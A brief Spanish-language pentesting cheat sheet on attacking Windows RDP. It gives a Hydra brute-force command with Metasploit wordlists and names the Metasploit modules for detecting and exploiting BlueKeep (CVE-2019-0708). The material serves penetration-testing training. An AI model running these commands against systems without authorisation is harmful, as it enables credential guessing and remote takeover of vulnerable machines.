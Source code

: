 # RDP

## Fuerza Bruta

### Hydra

Para hacer fuerza bruta usamos hydra de la siguiente forma:

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://192.168.1.1 -s 3333
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## BlueKeep (CVE-2019-0708)

{% hint style="info" %}
BlueKeep (CVE-2019-0708) es una vulnerabilidad crítica en el servicio de Remote Desktop Protocol (RDP) de Microsoft Windows. Esta vulnerabilidad permite la ejecución remota de código en sistemas vulnerables, lo que significa que un atacante puede tomar el control de un equipo afectado sin necesidad de credenciales de usuario

Algunos S.O. afectados:

* Windows XP
* Windows Vista
* Windows 7
* Windows Server 2003
* Windows Server 2008 & R2
{% endhint %}

### Detección

Podemos usar el siguiente modulo de metasploit:

```bash
/auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

### Explotación

Podemos usar el siguiente modulo de metasploit:

```bash
/exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>
